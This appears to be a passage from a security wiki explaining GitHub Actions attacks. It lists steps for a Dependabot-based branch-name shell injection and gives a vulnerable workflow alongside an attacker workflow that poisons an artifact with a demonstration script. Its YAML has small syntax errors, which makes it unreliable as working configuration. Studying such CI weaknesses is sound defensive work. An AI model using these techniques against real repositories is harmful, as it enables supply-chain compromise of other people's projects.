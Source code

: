 Well, the original blogpost proposes two options to abuse this behavior being the second one:

- Fork the victim repository and enable Dependabot with some outdated dependency.
- Create a new branch with the malicious shell injeciton code.
- Change the default branch of the repo to that one
- Create a PR from this branch to the victim repository.
- Run `@dependabot merge` in the PR Dependabot opened in his fork.
- Dependabot will merge his changes in the default branch of your forked repository, updating the PR in the victim repository making now the `dependabot[bot]` the actor of the latest event that triggered the workflow and using a malicious branch name.

### Vulnerable Third Party Github Actions

#### [dawidd6/action-download-artifact](https://github.com/dawidd6/action-download-artifact)

As mentioned in [**this blog post**](https://www.legitsecurity.com/blog/github-actions-that-open-the-door-to-cicd-pipeline-attacks), this Github Action allows to access artifacts from different workflows and even repositories.

The thing problem is that if the **`path`** parameter isn't set, the artifact is extracted in the current directory and it can override files that could be later used or even executed in the workflow. Therefore, if the Artifact is vulnerable, an attacker could abuse this to compromise other workflows trusting the Artifact.

Example of vulnerable workflow:

```yaml
on:
  workflow_run:
    workflows: ["some workflow"]
    types:
      - completed

jobs:
  success:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - name: download artifact
        uses: dawidd6/action-download-artifact
        with:
          workflow: ${{ github.event.workflow_run.workflow_id }}
          name: artifact
      - run: python ./script.py
        with:
          name: artifact
          path: ./script.py
```

This could be attacked with this workflow:

```yaml
name: "some workflow"
on: pull_request

jobs:
    upload:
        runs-on: ubuntu-latest
        steps:
            - run: echo "print('exploited')" > ./script.py
            - uses actions/upload-artifact@v2
              with:
                name: artifact
                path: ./script.py
```

---